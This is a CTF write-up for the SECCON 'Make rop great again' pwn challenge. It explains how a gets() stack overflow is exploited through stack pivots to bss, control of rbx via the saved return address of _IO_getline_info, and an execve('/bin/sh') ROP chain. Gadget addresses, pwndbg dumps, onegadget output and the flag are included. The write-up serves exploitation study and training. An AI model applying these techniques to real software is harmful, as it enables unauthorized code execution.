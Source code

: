 # Make rop great again

No pie, NX bit set, no canary
```c
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### Bug:
Stack buffer overflow in the main function using `gets()`.

### Exploit:
In this challenge we can't perform classic ret2libc attack here because there is no `pop rdi; ret` gadget in the binary. But we can control the first argument of gets call by jumping in the middle of main function.

```c
   0x00000000004011be <+17>:	lea    rax,[rbp-0x10]
   0x00000000004011c2 <+21>:	mov    rdi,rax
   0x00000000004011c5 <+24>:	mov    eax,0x0
   0x00000000004011ca <+29>:	call   0x401080        <------ gets
```

Stack pivot to bss (`0x404500`) and call gets in there, which will leave some libc function addresses in bss.
```c
22:0110│-410 0x404410 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
23:0118│-408 0x404418 —▸ 0x6fff552045c0 (_IO_2_1_stdout_) ◂— 0xfbad2887
24:0120│-400 0x404420 —▸ 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 ◂— ...
25:0128│-3f8 0x404428 —▸ 0x6fff55092795 (__GI__IO_file_underflow+357) ◂— test rax, rax
26:0130│-3f0 0x404430 ◂— 0
27:0138│-3e8 0x404438 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-3e0 0x404440 —▸ 0x6fff55202030 (_IO_file_jumps) ◂— 0
29:0148│-3d8 0x404448 ◂— 0x7fffffe0
2a:0150│-3d0 0x404450 —▸ 0x6fff55203964 (_IO_2_1_stdin_+132) ◂— 0x5520572000000000
2b:0158│-3c8 0x404458 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
2c:0160│-3c0 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 ◂— ...
2d:0168│-3b8 0x404468 —▸ 0x6fff550955c2 (_IO_default_uflow+50) ◂— cmp eax, -1
2e:0170│-3b0 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-3a8 0x404478 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
30:0180│-3a0 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— ...
31:0188│-398 0x404488 —▸ 0x6fff55086f6a (_IO_getline_info+170) ◂— cmp eax, -1
32:0190│-390 0x404490 ◂— 0
33:0198│-388 0x404498 ◂— 0x552038e0
34:01a0│-380 0x4044a0 —▸ 0x404811 ◂— 0x6262626262626262 ('bbbbbbbb')
35:01a8│-378 0x4044a8 ◂— 0xa /* '\n' */
36:01b0│-370 0x4044b0 —▸ 0x6fff552f0740 ◂— 0x6fff552f0740
37:01b8│-368 0x4044b8 —▸ 0x404810 ◂— 0x6262626262626262 ('bbbbbbbb')
pwndbg> 
38:01c0│-360 0x4044c0 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
39:01c8│-358 0x4044c8 —▸ 0x404020 (stdin@GLIBC_2.2.5) —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
3a:01d0│-350 0x4044d0 ◂— 0
3b:01d8│-348 0x4044d8 —▸ 0x6fff5532d000 (_rtld_global) —▸ 0x6fff5532e2e0 ◂— 0
3c:01e0│-340 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
3d:01e8│-338 0x4044e8 —▸ 0x6fff550871de (gets+366) ◂— mov rcx, qword ptr [r13]
3e:01f0│-330 0x4044f0 ◂— 0
3f:01f8│-328 0x4044f8 ◂— 0
pwndbg> 
40:0200│-320 0x404500 —▸ 0x7ffed16a86b8 —▸ 0x7ffed16a92a3 ◂— './chall_patched'
41:0208│-318 0x404508 ◂— 1
42:0210│-310 0x404510 ◂— 0
43:0218│-308 0x404518 —▸ 0x403dc8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401140 (__do_global_dtors_aux) ◂— endbr64 
44:0220│-300 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
45:0228│-2f8 0x404528 —▸ 0x4011cf (main+34) ◂— mov eax, 0
```

Stack pivot again (`0x404800`) to preserve the libc address. We can now use the `add_addr32` gadget to build execve rop chain in bss.
```c
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

But we don't have control of the `ebx` register here? And there are no gadgets which lets us control `ebx`.
or is it?

There was a similar challenge in [Project sekai ctf 2022](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/gets/) where the author found a way to control `ebx` by overwriting saved `rip` of `_IO_getline_info` function which is called inside the `gets()` call.

```c
 ► 0x7eb0cc486f9e <_IO_getline_info+222>        pop    rbx     RBX => 0x22897     <----- Control ebx/rbx
   0x7eb0cc486f9f <_IO_getline_info+223>        pop    r12     R12 => 0
   0x7eb0cc486fa1 <_IO_getline_info+225>        pop    r13     R13 => 0
   0x7eb0cc486fa3 <_IO_getline_info+227>        pop    r14     R14 => 0
   0x7eb0cc486fa5 <_IO_getline_info+229>        pop    r15     R15 => 0
   0x7eb0cc486fa7 <_IO_getline_info+231>        pop    rbp     RBP => 0x404465
   0x7eb0cc486fa8 <_IO_getline_info+232>        ret                                <main+40>
```

How can we control overwrite saved `rip` of `_IO_getline_info`?
Set the first argument of `gets()` call to `rsp-0x70` (or something closer, 0x70 worked for me).

Now we collected all the pieces to exploit the program. Build a rop chain in bss using leftover food and stack pivot AGAIN to trigger the rop.

Final rop chain in bss:
```c
25:0128│-320 0x404428 —▸ 0x7eb0cc4b502c (strndup+76)               ◂— pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
26:0130│-318 0x404430 ◂— 0
27:0138│-310 0x404438 —▸ 0x7eb0cc6038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-308 0x404440 —▸ 0x7eb0cc602030 (_IO_file_jumps) ◂— 0
29:0148│-300 0x404448 ◂— 0x7fffffe0
2a:0150│-2f8 0x404450 —▸ 0x7eb0cc603964 (_IO_2_1_stdin_+132) ◂— 0xcc60572000000000
2b:0158│-2f0 0x404458 —▸ 0x7eb0cc510a4d (eval_expr_multdiv+157)    ◂— pop rsi
2c:0160│-2e8 0x404460 ◂— 0
2d:0168│-2e0 0x404468 —▸ 0x7eb0cc50f75b (__spawnix+875)            ◂— pop rdi
2e:0170│-2d8 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-2d0 0x404478 —▸ 0x7eb0cc4eef34 (execve+4)                 ◂— mov eax, 0x3b; syscall
```

PS: A friend said one gadget worked fine lol. It wasn't that bad to build rop either :P

And today I learned pwndbg has onegadget implementation where it shows gadgets based on current context and it SAT checks the gadget. Thats a big W, now you don't have to peek memory manually for every gadget. Thanks to the pwndbg team <3

```c
pwndbg> onegadget
Using libc: ./libc.so.6

0x1111aa posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x48], 0, rsp+0x70, [rsp+0xf0])
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL || [rsp+0xf0] is a valid envp                    |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [rsp+0x48] == NULL || (s32)[[rsp+0x48]+0x4] <= 0                                            |
+----------+---------------------------------------------------------------------------------------------+

0x1111b2 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x48], 0, rsp+0x70, r9)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [r9] == NULL || r9 == NULL || r9 is a valid envp                                            |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [rsp+0x48] == NULL || (s32)[[rsp+0x48]+0x4] <= 0                                            |
+----------+---------------------------------------------------------------------------------------------+

Found 2 SAT gadgets.
Found 15 UNSAT gadgets.
Found 0 UNKNOWN gadgets.
```


Flag: `SECCON{53771n6_rd1_w17h_6375_m4k35_r0p_6r347_4641n}`

Exploit: [hack.py](./hack.py)